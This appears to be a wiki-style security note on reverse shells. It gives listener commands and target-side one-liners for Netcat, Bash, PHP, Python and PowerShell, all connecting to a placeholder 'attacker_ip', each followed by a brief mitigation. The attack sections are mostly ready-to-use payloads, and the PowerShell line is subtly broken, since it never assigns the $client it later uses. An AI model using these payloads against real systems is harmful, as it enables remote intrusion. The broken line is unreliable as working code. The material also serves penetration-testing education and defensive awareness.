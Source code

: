 ## Overview
A reverse shell is a type of shell in which the target machine connects back to the attacker's machine, providing the attacker with remote control over the target. Reverse shells are commonly used in hacking and penetration testing to bypass firewalls and NAT, allowing attackers to execute commands on a compromised system.

## Features
- **Outbound Connection:** The target initiates the connection to the attacker's machine, making it more likely to bypass firewalls.
- **Remote Command Execution:** Provides remote access to the target machine's shell, allowing for command execution.
- **Stealth:** Outbound connections are less likely to be blocked or monitored compared to inbound connections.
- **Flexible:** Can be written in various programming languages and utilized across different operating systems.

## Website
- [Reverse Shell Cheat Sheet by Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Common Reverse Shell Techniques

### 1. **Netcat Reverse Shell**
   - **Description:** Uses Netcat, a simple networking utility, to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
		```sh
nc -lvnp 4444
```
     - **Target Machine (Linux):**
     ```sh
nc -e /bin/bash attacker_ip 4444
```
     - **Target Machine (Windows):**
     ```sh
nc.exe -e cmd.exe attacker_ip 4444
```
   - **Mitigation:** Monitor for unauthorized outbound connections and block unneeded ports with a firewall.

### 2. **Bash Reverse Shell**
   - **Description:** Uses bash, a common Unix shell, to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
nc -lvnp 4444
```
     - **Target Machine:**
     ```sh
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
   - **Mitigation:** Restrict the execution of bash scripts and monitor for abnormal outbound traffic.

### 3. **PHP Reverse Shell**
   - **Description:** Utilizes PHP code to initiate a reverse shell, often used in web application attacks.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
nc -lvnp 4444
```
     - **Target Machine (Inject PHP Code):**
     ```php
     <?php system("nc -e /bin/bash attacker_ip 4444"); ?>
```
   - **Mitigation:** Disable dangerous PHP functions like `system()`, `exec()`, and `shell_exec()`, and use web application firewalls (WAFs).

### 4. **Python Reverse Shell**
   - **Description:** Leverages Python's `socket` and `subprocess` libraries to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
nc -lvnp 4444
     ```
     - **Target Machine:**
     ```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("attacker_ip",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/bash","-i"]);'
     ```
   - **Mitigation:** Limit Python execution capabilities and monitor for suspicious outbound connections.

### 5. **PowerShell Reverse Shell**
   - **Description:** Uses PowerShell, a powerful scripting language on Windows, to create a reverse shell.
   - **Exploitation:**
     - **Listener (Attacker Machine):**
     ```sh
nc -lvnp 4444
     ```
     - **Target Machine:**
     ```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacker_ip",4444);$stream = $client.GetStream();[byte[]]$buffer = 0..65535|%{0};while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
     ```
   - **Mitigation:** Restrict PowerShell execution policies, use AppLocker or Windows Defender Application Control (WDAC), and monitor for unusual PowerShell activity.

## Tools for Reverse Shells

- **[[Netcat]]:** A versatile networking utility often used for reverse shells.
- **[[Metasploit]]:** Includes modules for creating and handling reverse shells in various languages.
- **[[Ncat]]:** An enhanced version of Netcat that supports encryption and IPv6.
- **[[Socat]]:** A more powerful alternative to Netcat, supporting SSL and many other protocols.
- **[[PowerShell Empire]]:** A post-exploitation framework that uses PowerShell for reverse shells and other attacks.

## Best Practices
- **Use Firewalls:** Implement strict outbound filtering to prevent unauthorized reverse shell connections.
- **Monitor Network Traffic:** Use intrusion detection systems (IDS) and intrusion prevention systems (IPS) to detect reverse shell traffic patterns.
- **Harden Endpoints:** Disable unnecessary scripting languages and tools like PowerShell and Python on sensitive systems.
- **Educate Users:** Train users to recognize suspicious activities that could lead to reverse shell attacks, such as phishing emails and malicious downloads.
- **Keep Systems Updated:** Regularly update software and operating systems to mitigate vulnerabilities that could be exploited for reverse shells.

## References
- [Reverse Shell Cheat Sheet by Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Metasploit Unleashed - Reverse Shells](https://www.offensive-security.com/metasploit-unleashed/reverse-shell/)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

